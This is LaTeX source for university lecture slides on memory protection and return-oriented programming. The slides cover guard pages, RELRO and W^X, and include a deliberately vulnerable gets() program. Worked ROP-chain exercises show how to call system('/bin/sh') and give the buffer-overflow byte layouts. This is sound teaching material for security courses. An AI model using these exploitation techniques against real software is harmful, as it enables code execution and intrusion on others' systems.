\graphicspath{{./figures/}}
\title{}
\date{}
\begin{document}
\begin{frame}
    \titlepage
\end{frame}
\begin{frame}{last time}
    \begin{itemize}
    \item arc injection
        \begin{itemize}
        \item don't write shellcode; use existing program/library code
        \item surprise: often useful code already present
        \end{itemize}
    \item pointer subterfuge
        \begin{itemize}
        \item overwrite \textit{data} pointer
        \item program uses that data pointer to write something else
        \item way to get an arbitrary memory write
        \end{itemize}
    \item overflows on the heap
    \item memory protection: paging
        \begin{itemize}
        \item OS-managed table: for each (typically 4K) page, read/write + real address
        \end{itemize}
    \item guard pages: deliberately non-read/writeable pages
        \begin{itemize}
        \item can place between objects to stop (contiguous) buffer overflows
        \item problem: can only do in whole page chunks
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{next assignment}
    \begin{itemize}
    \item on pointer subterfuge
    \vspace{.5cm}
    \item was a format string exploit\ldots
    \item and I'd hope format string exploits have gone away\ldots
        \begin{itemize}
        \item but there was a bug in the original version of the \%n checking\ldots
        \item where it could be bypassed due to an integer overflow
        \item and another uncommon printf feature
        \end{itemize}
    \end{itemize}
\end{frame}

\section{memory protection}
\subsection{generally}
\usetikzlibrary{arrows.meta,shapes.multipart,patterns,positioning}
\begin{frame}[fragile,label=vm]{recall(?): virtual memory}
\begin{itemize}
\item illuision of \myemph{dedicated memory}
\end{itemize}
\begin{tikzpicture}
\tikzset{
    every node/.style={font=\small},
}
\node[align=center] (progAAddr) {Program A \\ addresses};
\node[below=1cm of progAAddr,align=center] (progBAddr) {Program B \\ addresses};
\node[draw, right=1cm of progAAddr,align=center] (translationA) { mapping \\ (set by OS) };
\node[draw, right=1cm of progBAddr,align=center] (translationB) { mapping \\ (set by OS) };
\node[draw,rectangle split, rectangle split parts=6, anchor=north west,label={north:real memory}] (mem) at ([xshift=1cm]translationA.north east) {
    \nodepart{one}
    Program A code 
    \nodepart{two}
    Program B code
    \nodepart{three}
    Program A data
    \nodepart{four}
    Program B data
    \nodepart{five}
    OS data
    \nodepart{six}
    \ldots
};
\draw[-Latex,green,thick] (progAAddr) -- (translationA) (translationA.east) -- (mem.one west);
\draw[-Latex,green,thick] (translationA.east) -- (mem.three west);
\draw[-Latex,blue,thick] (progBAddr) -- (translationB) (translationB.east) -- (mem.two west);
\draw[-Latex,blue,thick] (translationB.east) -- (mem.four west);
\node[thick,red,draw,anchor=north west] (error) at ([yshift=-.5cm]mem.south west) {trigger error};
\draw[-Latex,green,thick] (translationA.east) -- (error.west);
\draw[-Latex,blue,thick] (translationB.east) -- (error.west);
\draw[-Latex,green,ultra thick,dotted] (translationA.east) -- (mem.five west);
\draw[-Latex,blue,ultra thick,dotted] (translationB.east) -- (mem.five west);
\draw[-Latex,ultra thick,dotted] ([xshift=-3cm,yshift=-.5cm]translationB.south) -- ([xshift=-2cm,yshift=-.5cm]translationB.south)
    node[right] {= kernel-mode only};
\end{tikzpicture}
\end{frame}



\subsection{page-level permissions}
\usetikzlibrary{matrix}
\begin{frame}<1>[label=mappingList]{the mapping (set by OS)}
\begin{tikzpicture}
\tikzset{
    dot/.style={draw=none}
}
\matrix[tight matrix,nodes={minimum height=.525cm,text width=3cm,font=\small\tt},
    row 1/.style={nodes={font=\bfseries\small\normalfont}},
    column 1/.style={nodes={draw=none,text width=6cm}},
    column 2/.style={nodes={text width=1cm}},
    column 3/.style={nodes={text width=1cm}},
    column 4/.style={nodes={alt=<2>{opacity=1.0,red}{opacity=0.0},text width=1cm}},
] {
program address range \& read? \& write? \& exec? \& real address\\
0x0000 --- 0x0FFF \& no \& no \& no \& --- \\
0x1000 --- 0x1FFF \& no \& no \& no \& --- \\
|[dot]| \ldots \\
0x40 0000 --- 0x40 0FFF \& yes \& no \& yes \& 0x... \\
0x40 1000 --- 0x40 1FFF \& yes \& no \& yes \& 0x... \\
0x40 2000 --- 0x40 2FFF \& yes \& no \& yes \& 0x... \\
|[dot]| \ldots \\
0x60 0000 --- 0x60 0FFF \& yes \& yes \& no\& 0x... \\
0x60 1000 --- 0x60 1FFF \& yes \& yes \& no\& 0x... \\
|[dot]| \ldots \\
|[font=\scriptsize]| 0x7FFF FF00 0000 --- 0x7FFF FF00 0FFF \& yes \& yes \& no\& 0x... \\
|[font=\scriptsize]| 0x7FFF FF00 1000 --- 0x7FFF FF00 1FFF \& yes \& yes \& no\& 0x... \\
|[dot]| \ldots \\
};
\end{tikzpicture}
\end{frame}

\begin{frame}{Virtual Memory}
    \begin{itemize}
    \item modern \myemph{hardware-supported} memory protection mechanism
    \item via \myemph{table}: OS decides \myemph{what memory program sees}
        \begin{itemize}
        \item whether it's read-only or not
        \end{itemize}
    \item granularity of \myemph{pages} --- typically 4KB
    \vspace{.5cm}
    \item not in table --- segfault (OS gets control)
    \end{itemize}
\end{frame}




\subsection{guard pages / replacing stack canaries?}
\usetikzlibrary{arrows.meta,shapes.multipart,patterns}

\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    frameOne/.style={fill=blue!15},
    frameTwo/.style={fill=red!15},
    markLine/.style={blue!50!black},
    markLineB/.style={red!90!black},
    hiLine/.style={red!90!black},
}

\begin{frame}{malloc/new guard pages}
\begin{tikzpicture}
    \draw[thick,-Latex] (-0.25,-5) -- (-0.25, -1) node [midway, above, sloped] {increasing addresses};
    \node[anchor=south] at (3, 0) {the heap};
    \draw[stackBox] (0, 0) rectangle (6, -6);
    \draw[onStack,fill=blue!20] (0, -2) rectangle (6, -3.5)
        node[midway,align=center] {\texttt{malloc(6000)} \\ (or \texttt{new char[6000]}) };
    \draw[onStack,pattern=north west lines,pattern color=red] (0, -1) rectangle (6, -2)
        node[midway,fill=white] {guard page};
    \draw[onStack,pattern=north west lines,pattern color=red] (0, -4) rectangle (6, -5)
        node[midway,fill=white] {guard page};
    \draw[onStack,fill=black!20] (0, -3.5) rectangle (6, -4)
        node[midway] {unused space};
\end{tikzpicture}
\end{frame}

\begin{frame}{guard pages}
    \begin{itemize}
    \item deliberate holes
    \item accessing --- segfualt
    \item call to OS to allocate (not very fast)
    \item likely to `waste' memory
        \begin{itemize}
        \item guard around object? minimum 4KB object
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{guard pages for malloc/new}
    \begin{itemize}
    \item can implement malloc/new by placing guard pages around allocations
        \begin{itemize}
        \item commonly done by real malloc/new's for \myemph{large allocations}
        \end{itemize}
    \item problem: minimum actual allocation 4KB
    \item problem: substantially slower
    \item example: ``Electric Fence'' allocator for Linux (early 1990s)
    \end{itemize}
\end{frame}


\begin{frame}[fragile,label=stackGuard]{stack canary alternative}
\begin{tikzpicture}
\draw[stackBox] (0, 0) rectangle (6, -6);
\draw[thick,-Latex] (-.25,-5) -- (-.25, -1) node [midway, above, sloped] {increasing addresses};
\node[at={(4, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(4, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (6, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\
     {\fontsize{10}{11}\selectfont\tt\color{black}0x40fd37}
     };
    \draw[onStack,pattern=north west lines,pattern color=red] (0, -1.25) rectangle (6, -3.25) node[midway,align=center,font=\small,fill=white] {``guard page'' \\ minimum 4KB};
\draw[onStack,fill=blue!20] (0, -3.25) rectangle (6, -4.25) node[midway,align=center,font=\small] {buffer};
\begin{visibleenv}<2->
\draw[black,Latex-] (6.1, -1.25) -- ++(.5cm, 0cm) node[right,font=\small\tt] {0x7FFFF 2000};
\draw[black,Latex-] (6.1, -3.25) -- ++(.5cm, 0cm) node[right,font=\small\tt] {0x7FFFF 1000};

\matrix[tight matrix,overlay,
    column 1/.style={nodes={text width=2.25cm,minimum height=1cm,font=\fontsize{9}{10}\selectfont\tt}},
    column 2/.style={nodes={minimum height=1cm}},
    column 3/.style={nodes={minimum height=1cm}},
    ] at (12.4, -2) {
        address \& read \& write \\
    0x7FFFF2000- 0x7FFFF2FFF \& yes \& yes \\
    0x7FFFF1000- 0x7FFFF1FFF \& no \& no \\
    0x7FFFF0000- 0x7FFFF0FFF \& yes \& yes \\
};
\end{visibleenv};

\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=stackGuardB]{stack canary alternative 2}
\begin{tikzpicture}
\draw[stackBox] (0, 0) rectangle (6, -6);
\draw[thick,-Latex] (-.25,-5) -- (-.25, -1) node [midway, above, sloped] {increasing addresses};
\node[at={(4, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(4, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (6, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\
     {\fontsize{10}{11}\selectfont\tt\color{black}0x40fd37}
     };
\draw[onStack,pattern=north west lines,pattern color=black!50] (0, -1.25) rectangle (6, -2.25) node[midway,align=center,font=\small,fill=white] {unused space};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (6, -4.25) node[midway,align=center,font=\small] {buffer};
\begin{visibleenv}<2->
\draw[black,Latex-] (6.1, -.25) -- ++(.5cm, 0cm) node[right,font=\small\tt] {0x7FFFF 2000};
\draw[black,Latex-] (6.1, -2.25) -- ++(.5cm, 0cm) node[right,font=\small\tt] {0x7FFFF 1000};

\matrix[tight matrix,
    column 1/.style={nodes={text width=2.25cm,minimum height=1cm,font=\fontsize{9}{10}\selectfont\tt}},
    column 2/.style={nodes={minimum height=1cm}},
    column 3/.style={nodes={minimum height=1cm}},
    ] at (12.3, -1) {
        address \& read \& write\\
    0x7FFFF2000- 0x7FFFF2FFF \& yes \& yes \\
    0x7FFFF1000- 0x7FFFF1FFF \& yes \& \myemph<2>{no} \\
    0x7FFFF0000- 0x7FFFF0FFF \& yes \& yes \\
};
\end{visibleenv};

\end{tikzpicture}
\end{frame}



\subsection{exercise: guard page overhead}
\begin{frame}{exercise: guard page overhead}
    \begin{itemize}
    \item suppose heap allocations are:
        \begin{itemize}
        \item $100\,000$ objects of 100 bytes
        \item $1\,000$ objects of 1000 bytes
        \item $100$ objects of approx. 10000 bytes
        \end{itemize}
    \item total allocation of approx 12 000 KB
    \item assuming 4KB pages, estimate space overhead of using guard pages:
        \begin{itemize}
        \item for objects larger than 4096 bytes (1 page)
        \item for objects larger than 200 bytes
        \item for all objects
        \end{itemize}
    \end{itemize}
\end{frame}


\subsection{read-only pages}
\begin{frame}{recall: function pointer targets}
    \begin{itemize}
    \item wanted to overwrite special pointer:
    \vspace{.5cm}
    \item return addresses on stack
    \item function pointers on in local variables
    \item tables of function pointers used for inheritence
    \item global offset table
    \vspace{.5cm}
    \item last two: need to change infrequently
    \item idea: make read-only
    \end{itemize}
\end{frame}

\begin{frame}{RELRO}
    \begin{itemize}
        \item \textbf{REL}ocation \textbf{R}ead-\textbf{O}nly
        \item Linux option: make dynamic linker structures read-only after startup
        \item partial RELRO: everything but GOT pointers to library functions
            \begin{itemize}
            \item notably includes C++ virtual function tables
            \end{itemize}
        \item full RELRO: everything including those pointers
            \begin{itemize}
            \item requires disabling ``lazy'' linking
            \item (could do without disabling --- but slower (how much?) startup)
            \end{itemize}
        \item appears as ELF program header entry
    \end{itemize}
\end{frame}




\subsection{non-executable pages}
\begin{frame}{a thought on permissions}
    \begin{itemize}
    \item if we can set memory non-writeable
    \item how about non-executable?
    \vspace{.5cm}
    \item we never want to execute things on the stack anyways, right?
    \end{itemize}
\end{frame}


\begin{frame}[fragile,label=wxorx]{write XOR execute}
    \begin{itemize}
    \item many names:
    \begin{itemize}
        \item \verb|W^X| (write XOR execute)
        \item DEP (Data Execution Prevention)
        \item NX bit (No-eXecute) (hardware support)
        \item XD bit (eXecute Disable) (hardware support)
    \end{itemize}
    \item mark writeable memory as executable
    \item how will users insert their machine code?
        \begin{itemize}
        \item can only code in application + libraries
        \item a problem, right?
        \end{itemize}
    \end{itemize}
\end{frame}



\subsubsection{unfortunate history of HW/SW support}

\begin{frame}{hardware support for write XOR execute}
    \begin{itemize}
    \item everywhere today
    \item not historically common
    \item early x86: execute implied by read
    \item NX support added with x86-64 and around 2000 for x86-32
    \end{itemize}
\end{frame}

\begin{frame}{deliberate use of writeable code}
    \begin{itemize}
    \item ``just-in-time'' (JIT) compilers
        \begin{itemize}
        \item fast virtual machine/language implementations
        \end{itemize}
    \item some weird GCC features
    \item older ``signals'' on Linux
        \begin{itemize}
        \item OS wrote machine code on stack for program to run
        \end{itemize}
    \item couldn't even disable executable stacks without breaking applications
    \end{itemize}
\end{frame}



\subsubsection{if you can't write machine code}
\begin{frame}{why doesn't W xor X solve the problem?}
    \begin{itemize}
    \item W xor X is ``almost free'', keeps attacker from writing code?
    \item problem: useful machine code is in program already
        \begin{itemize}
        \item just need to find writable function pointer
        \end{itemize}
    \item saw special case: arc injection
        \begin{itemize}
        \item happened to find useful code in existing application/library
        \end{itemize}
    \item turns out: almost always useful code
    \end{itemize}
\end{frame}


\section{ROP}
\begin{frame}{next topic: ROP}
    \begin{itemize}
    \item return-oriented programming
    \vspace{.5cm}
    \item find ``chain'' of machine code that does what you want
    \end{itemize}
\end{frame}


\subsection{case study: F5 exploit}
\begin{frame}{F5 load balancer exploit}
\begin{itemize}
\item recently F5 Big-IP load balancers shown to have stack buffer overflow
\item F5 didn't enable ASLR, write XOR execute
\item problem: stack address was randomized
\item so can't do stack smashing\ldots
\end{itemize}
\end{frame}

\begin{frame}[plain]{}

\includegraphics[height=0.95\textheight]{../rop/f5-poc-twitter}
\end{frame}

\begin{frame}[fragile,label=jmpRsp]{jmp *\%rsp}
    \begin{itemize}
    \item there was a \texttt{jmp *\%rsp} instruction at fixed address
    \vspace{.5cm}
    \item was that really lucky?
    \item let's try examining, say, \texttt{/bin/bash} (shell) on my desktop\ldots
    \end{itemize}
\begin{lstlisting}[language=,style=smaller]
   949bf:       8b 15 ff e4 08 00       mov    0x8e4ff(%rip),%edx
\end{lstlisting}
    \begin{itemize}
        \item machine code for \texttt{jmp *\%rsp}: \texttt{ff e4}
        \item \ldots appears in middle of mov instruction!
    \end{itemize}
\end{frame}



\subsection{case study: calling puts}
\usetikzlibrary{arrows.meta,shapes.multipart}

\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    frameOne/.style={fill=blue!15},
    frameTwo/.style={fill=red!15},
    markLine/.style={blue!50!black},
    markLineB/.style={red!90!black},
    hiLine/.style={red!90!black},
}
\begin{frame}{ROP case study}
    \begin{itemize}
    \item simple stack buffer overflow with write XOR execute
    \item stack canaries disabled
    \item ASLR disabled
        \begin{itemize}
        \item in practice --- rely on information disclosure bug
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=vuln]{vulnerable application}
    \lstset{language=C,style=small}
\begin{lstlisting}
#include <stdio.h>

int vulnerable() {
    char buffer[100];
    gets(buffer);
}

int main(void) {
    vulnerable();
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=vulnFunc]{vulnerable function}
    \lstset{language=myasm,style=small}
\begin{lstlisting}
0000000000400536 <vulnerable>:
  400536:       48 83 ec 78        sub    $0x78,%rsp
  40053a:       31 c0              xor    %eax,%eax
  40053c:       48 8d 7c 24 0c     lea    0xc(%rsp),%rdi
  400541:       e8 ca fe ff ff     callq  400410 <gets@plt>
  400546:       48 83 c4 78        add    $0x78,%rsp
  40054a:       c3                 retq   
\end{lstlisting}
    \begin{itemize}
        \item<2> buffer at \texttt{0xC} + stack pointer
        \item<2> return address at \texttt{0x78} + stack pointer
            \begin{itemize}
                \item = \texttt{0x6c} + buffer
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=memoryLayout]{memory layout}
\lstset{
    language={},
    style=small,
    moredelim={**[is][\color{blue!70!black}]{~in~}{~end~}},
}
\begin{itemize}
    \item going to look for interesting code to run in libc.so
        \begin{itemize}
        \item implements gets, printf, etc.
        \end{itemize}
    \item loaded at address {\tt 0x2aaaaacd3000}
\end{itemize}
\end{frame}

\begin{frame}{our task}
    \begin{itemize}
    \item print out the message ``You have been exploited.''
    \item ultimately calling {\tt puts}
    \item which will be at address {\tt 0x2aaaaad42690}
    \end{itemize}
\end{frame}

\begin{frame}{how about arc injection?}
    \begin{itemize}
    \item can we just change return address to puts's address?
    \vspace{.5cm}
    \item no: \%rdi (argument 1) has the wrong value
    \end{itemize}
\end{frame}



\begin{frame}[fragile,label=shellcode]{shellcode}
\lstset{
    language=myasm,
    style=small,
    moredelim={**[is][\color{blue!70!black}]{~in~}{~end~}},
}
\begin{lstlisting}
        lea  string(%rip), %rdi
        mov  $0x2aaaaad42690, %rax /* puts */
        jmpq *(%rax)
string: .ascii "You have been exploited.\0"
\end{lstlisting}
    \begin{itemize}
        \item but --- can't insert code
        \item surely this code doesn't exist in libc already
        \item solution: find code for pieces
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=loadRDICode]{loading string into RDI}
\lstset{
    language=myasm,
    style=small,
    moredelim={**[is][\color{blue!70!black}]{~in~}{~end~}},
}
    \begin{itemize}
        \item can we even load a pointer to the string into {\tt \%rdi}?
        \item let's look carefully at code in {\tt libc.so}
    \end{itemize}
\begin{lstlisting}
2aaaaadfdc95:       48 89 e7              mov    %rsp,%rdi
2aaaaadfdc98:       ff d0                 callq  *%rax
\end{lstlisting}
    \begin{itemize}
        \item just need to get address of {\tt puts} into {\tt \%rax} before this
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=loadRDI]{load RDI}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\begin{scope}[xscale=0.75]
\draw[stackBox] (0, 2) rectangle (10, -3);
\draw[thick,-Latex] (-.25,-1) -- (-.25, 1) node [midway, above, sloped] {increasing addresses};
\node[at={(5, 2.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -3.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\ \only<2->{address of ``gadget''}};
\draw[onStack,fill=blue!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

    \begin{visibleenv}<2->
\draw[onStack,fill=red!20,opacity=0.9] (0, -2.25) rectangle (10, -1.25) node[midway,align=center,font=\small,text=red!50!black] {unused junk};
\draw[onStack,fill=green!20,opacity=0.9] (0, -.25) rectangle (10, 1.0) node[midway,align=center,font=\small,text=red!50!black] {string pointed to by RDI};

\draw[-Latex,red,ultra thick,dashed] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |-
    (12, -1.25) node[align=left,right,font=\small] { {\tt mov \%rsp, \%rdi} \\ {\tt call *\%rax} };
\end{visibleenv}
\end{scope}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=loadRAXCode]{loading puts addr. into RAX}
\lstset{
    language={},
    style=smaller,
    moredelim={**[is][\color{blue!70!black}]{~in~}{~end~}},
    moredelim={**[is][\color{red}\bfseries]{~hi~}{~end~}},
}
\begin{lstlisting}
2aaaaad06543:       e8 ~hi~58 c3~end~ fe ff          callq  2aaaaaaf48a0
\end{lstlisting}
\begin{itemize}
    \item {\tt 58 c3} can be interpreted another way: 
\begin{lstlisting}
2aaaaad06544:       58          popq %rax
2aaaaad06545:       c3          retq
\end{lstlisting}
    \item ``ret'' lets us \textbf{chain} this to execute \texttt{call} snippet next
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=loadChain]{ROP chain}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    useLine/.style={very thick,blue,Latex-},
    useLineRet/.style={red,very thick,-Latex,dashed},
    gadgetBox/.style={blue,thick,text=black,draw,align=left,font=\small},
}
\begin{scope}[xscale=0.75]
\draw[stackBox] (0, 3) rectangle (10, -3);
\draw[thick,-Latex] (-.25,-1) -- (-.25, 1) node [midway, above, sloped] {increasing addresses};
\draw[onStack,fill=green!20,opacity=0.9] (0, 3.00) rectangle (10, 1.75) node[midway,align=center,font=\small] (theString)
     {string to print};
\draw[onStack,red] (0, 1.75) rectangle (10, .75) node[midway,align=center,font=\small] (gadgetTwo)
     {pointer to second gadget};
\draw[onStack,fill=green!20] (0, .75) rectangle (10, -.25) node[midway,align=center,font=\small] (putsAddr)
     {address of \texttt{puts} (popped from stack)};
\draw[onStack,red] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\pointer to first gadget};
\draw[onStack,fill=blue!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {buffer (100 bytes)};
\draw[onStack,fill=red!20,opacity=0.9] (0, -2.25) rectangle (10, -1.25) node[midway,align=center,font=\small,text=red!50!black] {unused junk};
        \draw[-Latex,red,ultra thick,dashed] (stackAddr.east) -- ++(3cm,0cm) 
        node[right,gadgetBox] (firstGad) { {\tt popq \%rax} \\ {\tt ret} };
        \draw[-Latex,red,ultra thick,dashed] (gadgetTwo.east) -- ++(3cm,0cm)
        node[right,gadgetBox] (secondGad) { {\tt mov \%rsp, \%rdi} \\ {\tt call *\%rax} };
    \begin{visibleenv}<2->
        \node[gadgetBox,dashed,below=1cm of firstGad] (realRet) {
            \texttt{ret} (in vulnerable)
        };
        \draw[useLineRet] ([xshift=1ex]realRet.west) -- ([xshift=-1ex,yshift=2ex]stackAddr.south east);
    \end{visibleenv}
    \begin{visibleenv}<3->
        \draw[useLine] ([yshift=.6em,xshift=1ex]firstGad.west) -- (putsAddr.east);
    \end{visibleenv}
    \begin{visibleenv}<4->
        \draw[useLineRet] ([yshift=-.6em,xshift=1ex]firstGad.west) -- ([xshift=-1ex,yshift=2ex]gadgetTwo.south east);
    \end{visibleenv}
    \begin{visibleenv}<4->
        \draw[useLine] ([yshift=.6em,xshift=1ex]secondGad.west) -- (theString.east);
    \end{visibleenv}
\end{scope}
\end{tikzpicture}
\end{frame}




\subsection{ROP: exercise 0}
\begin{frame}[fragile,label=makerop0]{making an ROP chain (0)}
    \begin{itemize}
    \item goal: run ``\texttt{example(0)}''
    \item known info:
    \end{itemize}
{\small \tt
\begin{tabular}{ll}
\normalfont address & \normalfont instructions \\
0x100000 & (example function) \\
0x100100 & pop \%rdi; ret \\
0x100200 & xor \%eax, \%eax; ret \\
0x100300 & xor \%edi, \%edi; ret \\
\end{tabular}
}
\begin{itemize}
\item exercise: what can be written at return address + after to do this?
    \begin{itemize}
    \item just putting 0x100000: runs example function with wrong argument
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=makerop0soln]{making an ROP chain --- one solution}
\begin{itemize}
\item[] [\myemph<4>{0x100100}: \myemph<2>{pop \%rdi}; \myemph<3>{ret}]
\item[] \myemph<2>{\myemph<5>{0x0}}
\item[] [\myemph<3>{\myemph<6>{0x100000}}: example]
\vspace{.5cm}
\item as bytes (to put in buffer overflow):
    \begin{itemize}
    \item {\tt \myemph<4>{00 01 10 00 00 00 00 00} \myemph<5>{00 00 00 00 00 00 00 00}
               \myemph<6>{00 00 10 00 00 00 00 00}}
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=makerop0solnB]{making an ROP chain --- another solution}
\begin{itemize}
\item[] [\myemph<4>{0x100200}: \myemph<2>{xor \%edi, \%edi}; \myemph<3>{ret}]
\item[] [\myemph<3>{\myemph<5>{0x100000}}: example]
\vspace{.5cm}
\item as bytes (to put in buffer overflow):
    \begin{itemize}
    \item {\tt \myemph<4>{00 02 10 00 00 00 00 00} \myemph<5>{00 00 10 00 00 00 00 00}}
    \end{itemize}
\end{itemize}
\end{frame}


\subsection{ROP: exercise 1}


\begin{frame}[fragile,label=makerop1]{making an ROP chain (1)}
\begin{itemize}
    \item goal: run ``\texttt{system("/bin/sh")}''
    \item known info:
\end{itemize}
{\small \tt
\begin{tabular}{ll}
\normalfont address & \normalfont instructions \\
0x100000 & (system function) \\
0x100100 & mov \%rdi, (\%rax); ret \\
0x100200 & pop \%rax; ret \\
0x100300 & pop \%rdi; ret \\
0x200000 & (some global variable) \\
\end{tabular}
}
\begin{itemize}
\item exercise: what can be written at return address + after to do this?
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=makerop1soln]{one solution}
\begin{itemize}
\item[] [0x100200: \myemph<2>{pop \%rax}; \myemph<3>{ret}]
\item[] \only<2>{\%rsp->}[\myemph<2>{0x200000}]
\item[] \only<3>{\%rsp->}[\myemph<3>{0x100300}: \myemph<4>{pop \%rdi}; \myemph<5>{ret}]
\item[] \only<4>{\%rsp->}["/bin/sh\textbackslash 0"]
\item[] \only<5>{\%rsp->}[\myemph<5>{0x100100}: \myemph<6>{mov \%rdi, (\%rax)}; \myemph<7>{ret}]
\item[] \only<6-7>{\%rsp->}[\myemph<7>{0x100300}: \myemph<8>{pop \%rdi}; \myemph<9>{ret}]
\item[] \only<8>{\%rsp->}[\myemph<8>{0x200000}]
\item[] \only<9>{\%rsp->}[\myemph<9>{0x100000}: system()]
\end{itemize}
\begin{tikzpicture}[overlay,remember picture]
\node[anchor=north east,draw,very thick,align=left] at ([xshift=-.5cm,yshift=-.5cm]current page.north east) {
    \%rax = \alt<2->{\myemph<2>{\texttt{0x200000}}}{???} \\
    \%rdi = \alt<8->{\myemph<8>{0x200000}}{\alt<4->{\myemph<4>{\texttt{"/bin/sh\textbackslash 0"} as int}}{???}}
};
\end{tikzpicture}
\end{frame}


\subsection{finding gadgets (take 1)}

\begin{frame}{how did I find that?}
    \begin{itemize}
        \item no, I am not really good at looking at \texttt{objdump} output
        \item tools scan binaries for \textit{gadgets}
        \item one you'll use in upcoming homework
    \end{itemize}
\end{frame}

\begin{frame}{gadgets generally}
    \begin{itemize}
        \item bits of machine code that do work, then return or jump
        \item ``chain'' together, by having them jump to each other
        \item most common: find gadget ending with \texttt{ret}
            \begin{itemize}
            \item pops address of next gadget offs tack
            \end{itemize}
    \end{itemize}
\end{frame}



\subsection{finding gadgets, generally}

\begin{frame}{finding gadgets}
    \begin{itemize}
        \item find code segments of exectuable/library
        \item look for opcodes of arbitrary jumps:
            \begin{itemize}
            \item \texttt{ret}
            \item \texttt{jmp *register}
            \item \texttt{jmp *(register)}
            \item \texttt{call *register}
            \item \texttt{call *(register)}
        \end{itemize}
        \item disassemble starting a few bytes before
            \begin{itemize}
            \item invalid instruction? jump before ret? etc. --- discard
            \end{itemize}
        \item sort list
        \vspace{.5cm}
    \item \myemph{automatable}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=ROPgadgetEx1]{ROPgadget}
    \begin{itemize}
    \item ROPgadget: tool that does this
    \end{itemize}
\begin{lstlisting}[language={},style=small]
$ ROPgadget --binary /bin/ls
....
0x000000000000f09d : xor r8d, r8d ; cmp rcx, rsi ; jb 0xf0b9 ; jmp 0xf0e6
0x0000000000012a22 : xor r8d, r8d ; jmp 0x11fee
0x0000000000013d86 : xor r8d, r8d ; jmp 0x137a8
0x000000000001421a : xor r8d, r8d ; jmp 0x141b0
0x0000000000006aa1 : xor r8d, r8d ; jmp 0x69d5
0x00000000000099f0 : xor r8d, r8d ; jmp 0x931d
0x000000000000e6d0 : xor r8d, r8d ; mov rax, r8 ; ret
0x00000000000127a7 : xor r8d, r8d ; xor esi, esi ; jmp 0x11fee
0x000000000000e640 : xor r8d, r8d ; xor esi, esi ; jmp 0xe66a
0x000000000001435d : xor r9d, r9d ; jmp 0x141b0
0x0000000000008a03 : xor r9d, r9d ; xor r12d, r12d ; jmp 0x873c
0x0000000000014217 : xor r9d, r9d ; xor r8d, r8d ; jmp 0x141b0

Unique gadgets found: 6472
